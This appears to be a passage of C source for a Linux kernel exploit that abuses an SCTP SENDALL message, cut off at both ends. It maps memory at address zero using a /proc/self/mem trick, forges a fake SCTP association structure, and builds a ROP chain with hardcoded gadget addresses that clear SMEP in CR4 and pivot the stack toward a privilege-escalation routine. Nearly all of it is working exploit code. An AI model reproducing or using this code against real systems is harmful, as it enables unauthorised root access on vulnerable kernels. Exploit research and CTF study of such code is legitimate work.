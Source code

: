```c
	struct sockaddr_in clientAddr;
	
	rd_sz = sctp_recvmsg(server_sockfd,readbuf,sizeof(readbuf),
	(struct sockaddr*)&clientAddr, &len, &sri, &msg_flags);
	
	sri.sinfo_flags = (1 << 6) | (1 << 2);
	printf("SENDALL.\n");
	if(sctp_sendmsg(server_sockfd,readbuf,0,(struct sockaddr*)&clientAddr,
		len,sri.sinfo_ppid,sri.sinfo_flags,sri.sinfo_stream, 0,0)<0){
		perror("SENDALL sendmsg");
	}
	pthread_exit(0);
}

void setpayload(){
	unsigned long addr = (unsigned long)mmap((void *)0x10000,0x1000,PROT_READ|PROT_WRITE|PROT_EXEC,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1, 0);
	if (addr != 0x10000)
			err(2,"mmap failed");
	int fd = open("/proc/self/mem",O_RDWR);
	if (fd == -1)
			err(2,"open mem failed");
	char cmd[0x100] = {0};
	sprintf(cmd, "su >&%d < /dev/null", fd);
	while (addr)
	{
			addr -= 0x1000;
			if (lseek(fd, addr, SEEK_SET) == -1)
					err(2, "lseek failed");
			system(cmd);
	}
	printf("contents:%s\n",(char *)1);
    
	struct sctp_association *asoc = (struct sctp_association *)0xbc;
	asoc->sk = (struct sock *)0x1000;
	asoc->sk->type = 1;
	asoc->state = 0x7caf02c;
	unsigned int* call = (unsigned int *)0x3000;
	call[0] = 0xc1743d8f;	//mov esp, dword ptr [ebx + eax]; add byte ptr [eax], al; add bl, byte ptr [ebx + 0x5d]; ret;
	unsigned int *rop = (unsigned int *)0;
	rop[0] = 0x50;
	rop[20] = 0xc1022751; //pop eax;ret;
	rop[21] = 0x6d0;
	rop[22] = 0xc1022a69; //mov cr4, eax; push ecx; popfd; xor eax, eax; ret;
	rop[23] = 0xc1000324; //pop ebp;ret
	rop[24] = 0x4000;
	rop[25] = 0xc1022751; //pop eax;ret;
	rop[26] = 0xc71a5be0;
	rop[27] = 0xc124efdd; //mov esp, eax; call dword ptr [ebp - 0x77];
	unsigned int *tmp = (unsigned int *)(0x4000-0x77);
	tmp[0] = &get;

}


int main(int argc, char** argv)
{
	save_status();
	int server_sockfd;
	//int messageFlags_;
	pthread_t thread_array[2];
	pthread_t close_thread;
```